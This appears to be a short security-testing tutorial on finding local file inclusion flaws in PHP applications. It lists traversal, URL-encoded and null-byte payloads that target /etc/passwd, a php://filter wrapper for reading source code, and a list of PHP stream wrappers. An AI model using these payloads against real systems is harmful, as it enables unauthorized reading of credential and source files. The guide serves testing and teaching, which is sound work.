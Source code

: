 ## How to test LFI?

After finding parameters that takes files as input, it's time to test for LFI. There are some steps you can follow to get better understanding of how application handles input file:

### Manual

1. **Directory Traversal:** Attempt to traverse directories to access sensitive files.

   ```
   /etc/passwd
   ../../../etc/passwd
   ../../../../var/www/html/index.php
   ```

2. **URL Encoding:**  Encodes characters in the URL.

   ```
   ../../../etc/passwd --> %2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd
   ```

   

3. **Use Null Byte to bypass file  extensions: **Use `%00` to terminate file extensions in PHP.

   ```
   ../../etc/passwd%00
   ../../etc/passwd%00.jpg
   ../../etc/passwd%00.php
   ```

4. **PHP Wrappers: **PHP stream wrappers can help access file contents in alternative formats:

   ```
   php://filter/convert.base64-encode/resource=index.php
   ```

   Decode the response to analyze sensitive data.

   > Another useful wrappers:
   >
   > - [file://](https://www.php.net/manual/en/wrappers.file.php) — Access local filesystem
   >
   > - [http://](https://www.php.net/manual/en/wrappers.http.php) — Access HTTP(s) URLs
   >
   > - [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Access FTP(s) URLs
   >
   > - [php://](https://www.php.net/manual/en/wrappers.php.php) — Access various I/O streams
   >
   > - [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
   >
   > - [data://](https://www.php.net/manual/en/wrappers.data.php) — Data (RFC 2397)
   >
   > - [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern
   >
   > - [phar://](https://www.php.net/manual/en/wrappers.phar.php) — PHP Archive
   >
   > - [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
   >
   > - [rar://](https://www.php.net/manual/en/wrappers.rar.php) — RAR
   >
   > - [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams
   >
   > - [expect://](https://www.php.net/manual/en/wrappers.expect.php) — Process Interaction Streams
